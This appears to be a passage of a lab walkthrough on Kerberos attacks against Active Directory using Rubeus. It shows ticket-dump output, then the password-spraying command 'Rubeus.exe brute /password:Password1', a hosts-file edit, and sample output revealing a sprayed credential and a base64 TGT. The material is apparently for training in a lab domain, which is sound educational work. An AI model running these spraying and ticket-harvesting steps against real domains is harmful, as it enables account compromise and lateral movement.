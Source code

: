 ```
    qoE3LW4Y8dMWs3b/sn9sM+tH/VZzX7gUJMpIm6lq9nhEMq/mtrjxz1rTrGGANw+TK3HFdyNEX0U1wJ/pxb1MAUm/r4naJgCzdozJ
    cImZ8esz9AMpmq7UNVsVKDYQv/XxDKVYizaFH+1Cd9Te8wR7EtfOp8OYAf75DhCl3aOB9zCB9KADAgEAooHsBIHpfYHmMIHjoIHg
    MIHdMIHaoCswKaADAgESoSIEIOGhlJ19Bizgv1SZlpe87egzO4F4yzi/bwj2FJsNTNTVoRIbEENPTlRST0xMRVIuTE9DQUyiGjAY
    oAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBA4QAApREYDzIwMjEwNDI0MDgwMDA0WqYRGA8yMDIxMDQyNDE4MDAwNFqnERgP
    MjAyMTA1MDEwODAwMDRaqBIbEENPTlRST0xMRVIuTE9DQUypJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIuTE9DQUw=

[*] Ticket cache size: 3
[*] Sleeping until 4/24/2021 1:01:37 AM (30 seconds) for next display
```

**Brute-Forcing / Password-Spraying w/ Rubeus -**

Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo 10.10.197.112 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user

![](https://i.imgur.com/WN4zVo5.png)

```
PS C:\Users\Administrator\Downloads> .\Rubeus.exe brute /password:Password1 /noticket
  ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7ZxBFmH1Zizei4bKnkgwRtLata0+9dNsxs+ogl8W0xt4gfWyYPePGAwN4TbAWcabDAYFrkiYNhYU
      mWM1Jv87n7oYMzJLZsT1KmVs/RRUSe69G9n5JiONUKZ6h5C6G5MjnCi/PGkqsdBxmu6rbYvJ7hLTDmvR
      0Opx+j+CKrf15LAEVJ0Ms5WkTJVDcYjuRjNVD5sYQKvPZKi6oVovG+FFtrPBXHbRQEcIKS+6WLtIte5t
      hRuyHyMbUH808R47QD1ArfUBMPL/2aVO8hLIa8PSBDH/xPtFjQ4NR/0nB2vRFo8nVvHAlJQvluj2udiW
      zCmMAsN7NpYX0HUuld+0/YVFbNK7AmXFZZsQTSGs1J4bvCPKLzOl9f86wLgTZVd64bw6jfVwo2UvMKdc
      3aFkjf25qEbOHeEh6JNPIih7Ep/r1FMQUv1Grjzikx4/1Bo95moy/2Q5tPw2xqY48Z47WNkcdxhtjlhT
      KuJ8ChNANP3u1pVlpag7qMLGpAHL/AJQQTIkNhfuYYI2tS0hmIYTMs4gL16nE8r3kEYZlan0dVyHnSJW
      FKk4fTs+wUFgiqfBZOedxQlEHKoQGnBX670ob4ujLXBFZQYYatwPhg7X/Umky2MOFFcNYNc3r4Pi1Z76
      z7e0/010wv8PxycN+ntMGZofj89ArkaNIlMmCSJeRAMvJIUpin+j80S0pZsO/9rqHlq+FBSI/Uh7xa+N
      EHteqnnZNmoGSU+u9MGoWdQ9KL0/hEaH0wkV3ghdNycbPiQ/riX8E/mpSRXxMxpGe8Q3i/fegB1mme2y
```